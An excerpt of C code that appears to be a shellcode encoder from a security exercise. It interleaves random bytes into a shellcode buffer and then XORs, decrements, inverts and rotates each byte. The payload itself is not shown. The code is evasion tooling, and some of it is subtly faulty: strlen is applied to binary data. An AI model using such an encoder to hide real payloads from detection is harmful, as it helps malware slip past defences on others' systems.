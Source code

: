```c
{
int rot = 4; //right rotation 4 bits

printf("\n\nShellcode:\n\n");
int o;
for (o=0; o < strlen(shellcode); o++) {
    printf("\\x%02x", shellcode[o]);
}

printf("\n\nShellcode Length %d\n",sizeof(shellcode)-1);
printf("\n\nShellcode:\n\n");
o=0;
for (o; o < strlen(shellcode); o++) {
    printf("0x%02x,", shellcode[o]);
}

printf("\n");
int i;
unsigned char *buffer = (char*)malloc(sizeof(shellcode)*2);

//use srand to generate ranodm bytes as seen below 
srand((unsigned int)time(NULL));
unsigned char *shellcode2=(char*)malloc(sizeof(shellcode)*2);

// placeholder to copy the random bytes using rand
unsigned char shellcode3[] = "\xbb";
int l = 0;
int k = 0;
int j;

// random byte insertion into even number location
printf("\nInsertion encoded shellcode\n\n");
for (i=0; i<(strlen(shellcode)*2); i++) {
    // generate random bytes. 
    // Adding an integer with 0&ff leaves only the least significant byte (masking)
    buffer[i] = rand() & 0xff;
    memcpy(&shellcode3[0],(unsigned char*)&buffer[i],sizeof(buffer[i]));
    k = i % 2;
    if (k == 0)
    {
         shellcode2[i] = shellcode[l];
         l++;
    }
    else
    {
         shellcode2[i] = shellcode3[0];
    }
}

// apply the encoding scheme
for (i=0; i < strlen(shellcode2); i++) 
{
        // XOR every byte with 0x2c
        shellcode2[i] = shellcode2[i] ^ XORVAL;
        // decrease every byte by 2
        shellcode2[i] = shellcode2[i] - DEC;
        // one's complement
        shellcode2[i] = ~shellcode2[i];
        // perform the ror method
        shellcode2[i] = (shellcode2[i] << rot) | (shellcode2[i] >> sizeof(shellcode2[i])*(8-rot));   
}

```